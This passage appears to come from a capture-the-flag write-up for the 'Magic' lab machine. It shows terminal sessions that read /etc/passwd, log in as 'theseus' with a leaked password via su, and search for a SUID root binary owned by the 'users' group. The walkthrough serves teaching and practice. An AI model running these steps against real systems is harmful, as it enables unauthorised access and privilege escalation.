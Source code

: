 {% highlight none linenos %}
www-data@ubuntu:/var/www/Magic/images/uploads$ @@cat /etc/passwd | grep "theseus:"@@
<c/images/uploads$ cat /etc/passwd | grep "theseus:"
@@@theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash@@@
www-data@ubuntu:/var/www/Magic/images/uploads$ @@cat /etc/passwd | grep "admin:"@@
<gic/images/uploads$ cat /etc/passwd | grep "admin:"
{% endhighlight %}

We can check what users exist on the host by checking the `/etc/passwd` file. By doing this, we can conclude that `theseus` is a valid user account but that `admin` isn't. We can use `su` to try to log in to the `thesus` account using the two passwords we leaked earlier. Upon doing this, we discover that the password "Th3s3usW4sK1ng" is correct and we obtain a shell as `theseus`

{% highlight none linenos %}
www-data@ubuntu:/var/www/Magic/images/uploads$ @@su theseus@@
su theseus
Password: @@iamkingtheseus@@

@@@su: Authentication failure@@@
www-data@ubuntu:/var/www/Magic/images/uploads$ @@su theseus@@
su theseus
Password: @@Th3s3usW4sK1ng@@

@@@theseus@@@@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

By executing the command `groups` we can see that the `theseus` user is a member of the `theseus` and `users` group. The latter is a non-standard group and thus it could be interesting to search for directories and files owned by this group. We can do this using the command `find / -group users -exec ls -l {} \; 2>/dev/null`. 

The `-exec ls -l {} \;` portion of the command instructs `find` to execute `ls -l [fileOrDir]` for each discovered directory and file, to provide us with more information about it. The `2>/dev/null` portion of the command disables error messages by redirecting them to `/dev/null`. This is useful since it is likely that there are many folders that we can not access, which would result in a large number of `permission denied` errors.

{% highlight none linenos %}
theseus@ubuntu:/var/www/Magic/images/uploads$ @@groups@@
groups
theseus @@@users@@@
theseus@ubuntu:/var/www/Magic/images/uploads$ @@find / -group users -exec ls -l {} \; 2>/dev/null@@       
<$ find / -group users -exec ls -l {} \; 2>/dev/null
-rw@@@s@@@r-x--- 1 @@@root users@@@ 22040 Oct 21  2019 @@@/bin/sysinfo@@@
theseus@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

From the output of our search, we discover that the file `/bin/sysinfo` has the SUID bit set and is owned by `root`. This means that accounts in the `users` group can execute this binary as the `root` user. If we can trick this binary into handing us a bash shell, we can compromise the `root` account since this bash shell would be running in the context of the `root` user. If we run this binary, we can see that it appears to provide information about the target host. Among other things, it lists CPU info and information about available memory, as can be seen below.

{% highlight none linenos %}
theseus@ubuntu:/var/www/Magic/images/uploads$ @@/bin/sysinfo@@
[...]
====================CPU Info====================
processor       : 0
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 49
model name      : AMD EPYC 7302P 16-Core Processor
stepping        : 0
microcode       : 0x8301038
cpu MHz         : 2994.374
cache size      : 512 KB
physical id     : 0